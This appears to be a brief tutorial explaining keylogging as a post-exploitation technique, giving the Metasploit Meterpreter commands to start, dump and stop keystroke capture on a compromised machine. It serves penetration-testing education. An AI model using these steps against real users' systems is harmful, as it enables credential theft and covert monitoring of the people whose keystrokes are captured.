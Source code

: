 **Keylogging** is a post-exploitation technique used to capture keystrokes from a compromised system. This information is often used to steal credentials, sensitive data, or monitor user activity.

## Implementing Keylogging in Metasploit

Metasploit's Meterpreter includes a keylogging feature.

##### Steps:

1. **Setup a Meterpreter Session**:

Compromise the target and gain a Meterpreter session.

2. **Start Keylogging**:

```bash
meterpreter > keyscan_start
```
This starts capturing keystrokes from the target system.

3. **Dump Captured Keystrokes**:

```bash
meterpreter > keyscan_dump
```
4. **Stop Keylogging**:
```bash
meterpreter > keyscan_stop
```
